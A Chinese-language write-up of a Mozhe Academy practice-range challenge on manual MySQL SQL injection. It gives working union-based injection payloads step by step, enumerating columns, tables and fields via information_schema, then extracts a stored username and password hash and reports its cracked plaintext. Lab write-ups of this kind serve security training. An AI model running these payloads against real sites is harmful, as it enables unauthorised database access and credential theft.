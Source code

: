 ### SQL注入

#### 墨者学院靶场[SQL手工注入漏洞测试(MySQL数据库)](https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe)
1. 第一步: 查看是否存在注入点 
    `and 1=1` 可以打开
    `id=1 and 1=2` 不能打开
    `id=1 西瓜` 不能打开
1. 第二步: 查看列数量
    `id=1 order by X` X从1不断往上递加直到网页不能正常显示,此题目最大值为4,说明为4列
1. 第三步: 报错查看列名情况
    `id=-1 union select 1,2,3,4` 显示为2,3
1. 第四步: 从2,3查询, 查看版本, 数据库等信息
    `id=-1 union select 1,version(),database(),4` 此题结果, 版本:`version() = 5.7.22-0ubuntu0.16.04.1` 数据库: `database()=mozhe_Discuz_StormGroup`
    查询表名:
    `id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'` 表名结果:`StormGroup_member,notice` 对此题来说,是`StormGroup_member`
    查询列名:
    `id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='StormGroup_member'` 列名结果: `id,name,password,status`
1. 第五步: 查询数据
    `id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1`
    结果`name=mozhe` | `password=861de5d5f0a8128d0fab489996355994`
6.第六步:MD5解密
    name:mozhe 
    password:874769


#### 题目总结

1. 判定注入点
1. 查看列数量
1. 通过报错注入配合页面查看数据回显
1. 通过union联合查询拿到数据库版本,数据库名,表名,列名等信息
1. 查询出数据